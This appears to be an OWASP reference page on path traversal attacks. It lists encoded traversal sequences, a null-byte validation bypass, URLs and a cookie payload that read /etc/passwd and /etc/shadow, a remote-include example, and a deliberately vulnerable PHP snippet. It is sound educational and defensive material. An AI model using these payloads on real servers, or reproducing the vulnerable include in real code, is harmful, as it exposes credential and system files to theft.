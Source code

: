 ```yaml
---

layout: col-sidebar
title: Path Traversal.md
author: 
contributors: 
permalink: /attacks/Path_Traversal
tag: attack, Path Traversal.md
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **//**



## Overview

A path traversal attack (also known as directory traversal) aims to
access files and directories that are stored outside the web root
folder. By manipulating variables that reference files with
“dot-dot-slash (../)” sequences and its variations or by using
absolute file paths, it may be possible to access arbitrary files and
directories stored on file system including application source code or
configuration and critical system files. It should be noted that access
to files is limited by system operational access control (such as in the
case of locked or in-use files on the Microsoft Windows operating
system).

This attack is also known as “dot-dot-slash”, “directory traversal”,
“directory climbing” and “backtracking”.

## Related Security Activities

### How to Avoid Path Traversal Vulnerabilities

See the [OWASP Guide](:Category:OWASP_Guide_Project "wikilink") article
on how to [Avoid Path Traversal](File_System#Path_traversal "wikilink")
Vulnerabilities.

### How to Test for Path Traversal Vulnerabilities

See the [OWASP Testing
Guide](:Category:OWASP_Testing_Project "wikilink") article on how to
[Test for Path
Traversal](Testing_for_Path_Traversal_\(OWASP-AZ-001\) "wikilink")
Vulnerabilities.

## Description

### Request variations

Encoding and double encoding:

`%2e%2e%2f represents ../`
`%2e%2e/ represents ../`
`..%2f represents ../ `
`%2e%2e%5c represents ..\`
`%2e%2e\ represents ..\ `
`..%5c represents ..\ `
`%252e%252e%255c represents ..\ `
`..%255c represents ..\ and so on. `

**Percent encoding (aka URL encoding)**

Note that web containers perform one level of decoding on percent
encoded values from forms and URLs.

`..%c0%af represents ../ `
`..%c1%9c represents ..\ `

**OS specific**

UNIX

`Root directory:  “ / “ `
`Directory separator: “ / “`

WINDOWS

`Root directory: “  `<partition letter>` : \ “`
`Directory separator: “ / “ or “ \ ” `
`Note that windows allows filenames to be followed by extra . \ / characters.`

In many operating systems, null bytes %00 can be injected to terminate
the filename. For example, sending a parameter like:

`?file=secret.doc%00.pdf`

will result in the Java application seeing a string that ends with
".pdf" and the operating system will see a file that ends in ".doc".
Attackers may use this trick to bypass validation routines.

## Examples

### Example 1

The following examples show how the application deals with the resources
in use.

` http://some_site.com.br/get-files.jsp?file=report.pdf  `
` http://some_site.com.br/get-page.php?home=aaa.html  `
` http://some_site.com.br/some-page.asp?page=index.html  `

In these examples it’s possible to insert a malicious string as the
variable parameter to access files located outside the web publish
directory.

`  http://some_site.com.br/get-files?file=../../../../some dir/some file `

`  http://some_site.com.br/../../../../some dir/some file `

The following URLs show examples of \*NIX password file exploitation.

`http://some_site.com.br/../../../../etc/shadow  `
`http://some_site.com.br/get-files?file=/etc/passwd `

Note: In a windows system an attacker can navigate only in a partition
that locates web root while in the Linux he can navigate in the whole
disk.

### Example 2

It's also possible to include files and scripts located on external
website.

` http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php   `

### Example 3

These examples illustrate a case when an attacker made the server show
the CGI source code.

` http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi   `

### Example 4

This example was extracted from: Wikipedia - Directory Traversal

A typical example of vulnerable application code is:

    <nowiki>
    <?php
    $template = 'blue.php';
    if ( is_set( $_COOKIE['TEMPLATE'] ) )
       $template = $_COOKIE['TEMPLATE'];
    include ( "/home/users/phpguru/templates/" . $template );
    ?>
    </nowiki>

An attack against this system could be to send the following HTTP
request:

    GET /vulnerable.php HTTP/1.0
    Cookie: TEMPLATE=../../../../../../../../../etc/passwd

Generating a server response such as:

    HTTP/1.0 200 OK
    Content-Type: text/html
    Server: Apache

    root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh
    daemon:*:1:1::/tmp:
    phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh

The repeated `../` characters after /home/users/phpguru/templates/ has
caused [include()](http://www.php.net/manual/en/function.include.php) to
traverse to the root directory, and then include the UNIX password file
[/etc/passwd](passwd "wikilink").

UNIX etc/passwd is a common file used to demonstrate **directory
traversal**, as it is often used by crackers to try cracking the
passwords.

### Absolute Path Traversal

The following URLs may be vulnerable to this attack:

`http://testsite.com/get.php?f=list`
`http://testsite.com/get.cgi?f=2`
`http://testsite.com/get.asp?f=test`

An attacker can execute this attack like this:

`http://testsite.com/get.php?f=/var/www/html/get.php`
`http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc`
`http://testsite.com/get.asp?f=/etc/passwd`

When the web server returns information about errors in a web
application, it is much easier for the attacker to guess the correct
locations (e.g. path to the file with a source code, which then may be
displayed).

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category: Information
    Disclosure](:Category:_Information_Disclosure "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Path Manipulation](Path_Manipulation "wikilink")
  - [Relative Path Traversal](Relative_Path_Traversal "wikilink")
  - [Resource Injection](Resource_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")

## References

  - <http://cwe.mitre.org/data/definitions/22.html>
  - <http://www.webappsec.org/projects/threat/classes/path_traversal.shtml>

\[\[Category:FIXME|link not working

  - <http://cve.mitre.org/docs/plover/SECTION.9.6.html#PATH.TRAV>

\]\]

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[this link doesn't exist. Do you want to change this to a different link
or add this category?](Category:FIXME "wikilink") [Category:Abuse of
Functionality](Category:Abuse_of_Functionality "wikilink")
[Category:Path Traversal
Attack](Category:Path_Traversal_Attack "wikilink") [Category:Resource
Manipulation](Category:Resource_Manipulation "wikilink")
[Category:Attack](Category:Attack "wikilink")